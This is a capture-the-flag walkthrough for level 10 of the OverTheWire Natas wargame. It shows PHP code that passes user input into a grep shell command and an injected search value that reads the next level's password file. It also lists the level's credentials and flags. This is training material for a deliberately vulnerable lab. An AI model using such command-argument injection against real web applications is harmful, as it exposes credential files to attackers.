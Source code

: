 **Flag:** `nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

# Level 10
http://overthewire.org/wargames/natas/natas10.html

```
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Search for `[A-Za-z] /etc/natas_webpass/natas11`

```
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
...
```

**Flag:** `U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`



